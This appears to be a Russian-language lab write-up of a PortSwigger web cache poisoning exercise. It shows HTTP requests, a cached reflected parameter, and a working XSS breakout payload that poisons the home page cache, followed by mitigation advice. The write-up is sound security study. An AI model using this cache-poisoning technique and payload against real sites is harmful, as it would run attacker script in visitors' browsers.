



**Ключ кэша** — это набор элементов запроса, по которым кэш-сервер (или CDN) определяет, **нужно ли отдавать сохраненную копию или генерировать новый ответ**.

-----

#### Отравление веб-кэша из-за неподключенной строки запроса

лаба https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-unkeyed-query

задание:   отравить кеш ответа  главной страницы , который выполняет `alert(1)` в браузере жертвы.

--------

вот оригин запрос к главной стр
```http
GET / HTTP/2
Host: 0ab6001d03e783db83937336000e005c.web-security-academy.net
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

-----

ответ ИЗ  КЕША идет 

HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=35
Age: 12
X-Cache: hit
Content-Length: 8487


```


--------

я не стал стесняться и сразу бахнул все что есть!
```http
GET / HTTP/2
Host: 0ab6001d03e783db83937336000e005c.web-security-academy.net
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
X-Forwarded-Host: xxxx11
X-Forwarded-Scheme: xxx2
X-Forwarded-Server: xxx3
X-Host: xxx4
X-Original-Url: xxx5
X-Rewrite-Url: xxx6
X-Http-Method-Override: xxx7
Forwarded: xxx8
Origin: xxx9
Accept-Encoding: xxx11
Cookie: xxx22
Pragma: akamai-x-get-cache-key33
X-Cache-Key: xxx44
X-True-Cache-Key: xxx55
Cache-Status: xxx66
Cf-Cache-Status: xxx77
X-Cache: xxx88
X-Cache-Hits: xxx99
Via: xxx111
Age: xxx222
Cache-Control: xxx333
Vary: xxx444
Content-Length: 0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

но ответ никак не поменялся и в html тоже нет ничего, хотя я выжидал время, пока сгорит предыдущий кеш

пробовал также поиграться с агентом и кукой сессии - результата нет


---
и вот она уязвимость поймана!!!!
я просто добавил хрен пойми -какой параметр в url
GET /?zzz=00 HTTP/2

и это отразилось в html в ответе
```html
   <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsBlog.css rel=stylesheet>
        <link rel="canonical" href='//0ab6001d03e783db83937336000e005c.web-security-academy.net/?zzz=00'/>
        <title>Web cache poisoning via an unkeyed query string</title>
    </head>
```




но что самое веселое - что это кеш впитал в себя 
и на такой запрос GET / HTTP/2
выдает  тоже самое
```html
 <link rel="canonical" href='//0ab6001d03e783db83937336000e005c.web-security-academy.net/?zzz=00'/>
```




-----
теперь самое простое - выйти из тегя и выполнить js код!!
ну и если нужно - обойти санитаризацию

-----
с лету делаю пейлоад
```js
'/><script>alert(1337)</script>
```

и срабатывает алерт!!! браво!
я просто после отправки отравляющего запроса в репитере - открыл через инкогнито главную стр сайта и получил с него отравленный кеш




и лаба решена, так как жертва перешла на главную стр

---

#### суть этой лабы

ключ кэша формировался без учета строки запроса -  
то есть сервер смотрел только на путь и заголовки,  
а все что после вопросительного знака игнорировалось при определении ключа

я добавил в url параметр zzz=00,  
и он отразился внутри тега link в атрибуте href,  
при этом этот ответ закешировался

после этого любой пользователь который заходил на главную страницу без параметров  
получал из кэша ту же страницу, где в href был мой параметр

я заменил значение параметра на пейлоад, который закрывает кавычку и тег  
и вставляет свой скрипт  
`'/><script>alert(1337)</script>`

это сработало потому что сервер не экранировал спецсимволы при вставке в атрибут,  
а кэш сохранил этот вредоносный ответ

в итоге каждый кто заходил на главную страницу выполнял мой скрипт

 #### как защититься

1 нужно чтобы строка запроса входила в ключ кэша,  
тогда ответы с разными параметрами не будут перезаписывать друг друга

2 всегда экранировать данные перед вставкой в html  
особенно если они приходят из строки запроса

3 использовать политику `content security policy`  
чтобы ограничить выполнение скриптов даже если xss проскочил

4 для статичных страниц лучше отключать кэширование если они содержат динамические элементы

эта лаба показала что даже простой параметр в url может стать вектором атаки,  
если кэш настроен неправильно и данные не фильтруются